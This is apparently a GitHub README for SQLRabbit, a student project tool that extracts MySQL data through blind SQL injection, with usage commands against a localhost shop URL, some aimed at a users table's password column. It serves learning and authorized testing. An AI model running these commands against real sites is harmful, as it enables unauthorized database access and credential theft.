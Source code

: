 # SQLRabbit
The SQLRabbit is a tool for identifying and extracting data from MySQL databases using Blind Based SQL Injection attack techniques. The tool was made during undergraduate studies as part of the Final Year Project.

# Usage
### Running the tool normally
```
python3 SQLRabbit.py --url 'http://127.0.0.1/shop/index.php?page=product&id=1'
```
### Running the tool normally with table and column specification
```
python3 SQLRabbit.py --url 'http://127.0.0.1/shop/index.php?page=product&id=1' --table users --column password
```
### Running the tool with a fast algorithm (Need to specify * where the vulnerability is)
```
python3 SQLRabbit.py --url 'http://127.0.0.1/shop/index.php?page=product&id=1*' --speed=true
```
### Running the tool with a fast algorithm and with table and column specification (Need to specify * where the vulnerability is)
```
python3 SQLRabbit.py --url 'http://127.0.0.1/shop/index.php?page=product&id=1*' --speed=true --table users --column password
```
